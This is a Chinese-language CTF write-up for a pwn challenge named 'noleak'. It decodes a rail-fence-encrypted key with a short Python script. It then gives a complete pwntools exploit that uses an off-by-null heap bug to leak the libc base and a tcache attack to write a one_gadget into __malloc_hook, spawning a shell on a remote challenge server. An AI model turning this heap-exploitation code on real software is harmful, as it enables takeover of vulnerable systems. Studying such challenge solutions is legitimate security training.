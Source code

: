 通过观察可以发现有一个栅栏加密。并且存在offbynull漏洞

1.通过栅栏加密利用char为1byte，unsigned int为4byte的特性，加了个一个简单的栅栏加密字符串，解密只需将unsigned int类型的enc密文先转为单字节的char类型，然后进行栅栏为4的栅栏解密。

2.利用溢出漏洞修改size，将其free后再次malloc可以通过show泄露其地址。

3.利用tcache的特点，可以通过tcache_attack进行攻击，向malloc_hook中写入one_gadget.

4.再次调用malloc即可getshell



#--------------------------------------
	a=[0x5f5f794e,0x63745f30,0x7448315f,0x37656e70]
	b=[]
	for i in range(4):
	    tmp=a[i]
	    for j in range(4):
	        b.append(chr(tmp&0xff))
	        tmp=tmp>>8
	flag=''
	for i in range(4):
	    for j in range(4):
	        flag+=b[i+4*j]
	print(flag)
	#N0_py_1n_tHe_ct7

#---------------------------------------


	#! /usr/bin/python3
	from pwn import *
	from LibcSearcher import *
	#sh=remote("47.108.195.119",20182)
	sh=remote("101.35.18.209",20112)
	context.log_level = 'debug'
	libc=ELF('./libc.so.6')
	elf = ELF('./noleak')
	#sh=process('./noleak')
	
	r   =  lambda x : io.recv(x)
	ra  =  lambda   : io.recvall()
	rl  =  lambda   : io.recvline(keepends = True)
	ru  =  lambda x : io.recvuntil(x, drop = True)
	s   =  lambda x : io.send(x)
	sl  =  lambda x : io.sendline(x)
	sa  =  lambda x, y : io.sendafter(x, y)
	sla =  lambda x, y : io.sendlineafter(x, y)
	ia  =  lambda : io.interactive()
	c   =  lambda : io.close()
	li    = lambda x : log.info('\x1b[01;38;5;214m' + x + '\x1b[0m')
	
	context.log_level='debug'
	
	def choice(elect):
		sh.recvuntil('4) delete a chunk\n')
		sh.sendline(str(elect))
	
	def add(index,size):
		choice(1)
		sh.recvuntil('?')
		sh.sendline(str(index))
		sh.recvuntil('?')
		sh.sendline(str(size))
	
	def edit(index,content,full=False):
		choice(3)
		sh.recvuntil('?')
		sh.sendline(str(index))
		sh.recvuntil(':')
		if full:
			sh.send(content)
		else:
			sh.sendline(content)
	
	def show(index):
		choice(2)
		sh.recvuntil('?')
		sh.sendline(str(index))
	
	def delete(index):
		choice(4)
		sh.recvuntil('?')
		sh.sendline(str(index))
	
	def exploit():
		li('exploit...')
		#--------------------------------
	#	sh.recvuntil("名称:")
	#	sh.sendline("")
	#	sh.recvuntil("名字:")
	#	sh.sendline("")
		#--------------------------------
	
		sh.sendlineafter("start !\n","N0_py_1n_tHe_ct7")
	
		add(0,0x80) #A
		add(1,0x18) #B
		add(2,0xf0) #C
		for i in range(7):
			add(i+3,0x80)
	
		for i in range(7):
			delete(i+3)
			add(i+3,0xf0)
	
		for i in range(7):
			delete(i+3)
		delete(0)
		#gdb.attach(sh)
		edit(1,b'\x00'*0x10+p64(0xb0),full=True)
		delete(2)
		#gdb.attach(sh)
	
		for i in range(8):
			add(3,0x80)
		show(1)
		sh.recvuntil('\n',drop=True)
		libc_base=u64(sh.recvuntil('\n',drop=True).replace(b'\n',b'').ljust(8,b'\x00')) - 0x70 - libc.sym['__malloc_hook']
		malloc_hook=libc_base+libc.symbols['__malloc_hook']
		realloc=libc_base+libc.symbols['realloc']
		gadget=[0x41602,0x41656,0xdeec2]
		onegadget=libc_base+gadget[2]
	
		print(libc_base)
		print(malloc_hook)
		print(onegadget)
		#gdb.attach(sh)
	
		add(2,0x10)
		delete(2)
		edit(1,p64(malloc_hook-0x8) )
		add(3,0x10)
		add(4,0x18)
		edit(4,p64(onegadget)+p64(onegadget))
		#gdb.attach(sh)
		add(1,0x10)
		sh.interactive()
	
	if __name__ == '__main__':
	    exploit()
	    finish()